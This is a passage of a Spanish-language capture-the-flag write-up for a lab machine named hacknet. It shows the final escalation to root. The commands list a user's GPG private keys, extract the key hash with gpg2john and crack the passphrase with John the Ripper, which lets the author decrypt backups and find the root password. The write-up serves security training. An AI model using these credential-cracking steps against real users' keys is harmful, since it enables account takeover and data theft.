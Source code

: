 {{< figure
src="16.png"
 caption="Finalmente logramos escalar al usuario sandy"
>}}

## Shell como root
Ahora con el usuario sandy ya tenemos acceso a la carpeta de backup que encontramos al principio. 
* El archivo de clave privada `GPG` se encontró en el directorio del usuario sandy
```bash
sandy@hacknet:~$ ls -la .gnupg/private-keys-v1.d
ls -la .gnupg/private-keys-v1.d
total 20
drwx------ 2 sandy sandy 4096 Sep  5 11:33 .
drwx------ 4 sandy sandy 4096 Sep  5 11:33 ..
-rw------- 1 sandy sandy 1255 Sep  5 11:33 0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key
-rw------- 1 sandy sandy 2088 Sep  5 11:33 armored_key.asc
-rw------- 1 sandy sandy 1255 Sep  5 11:33 EF995B85C8B33B9FC53695B9A3B597B325562F4F.key
```
Hay un archivo `armored_key.asc` que esta encriptado y guarda una contraseña, con la herramienta john logre obtener el hash
```bash
gpg2john armored_key.asc > hash

File armored_key.asc

```
Luego desciframos el hash con john
```bash
 sudo snap run john-the-ripper hash --show
Sandy:sweetheart:::Sandy (My key for backups) <sandy@hacknet.htb>::armored_key.asc

1 password hash cracked, 0 left

```
Ahora intentamos desencriptar los archivos de backup

{{< figure
src="20.png"
>}}
Ahora que el archivo ya se encuentra legile, busquemos contraseñas


{{< figure
src="fin.png"
>}}
Encontramos una contraseña, que por lo visto pertenece al usuario `root`, por ultimo iniciamos sesion y obtenemos la flag de root.txt

</br> Gracias por leer hasta aca:)
</br> Happy Hacking
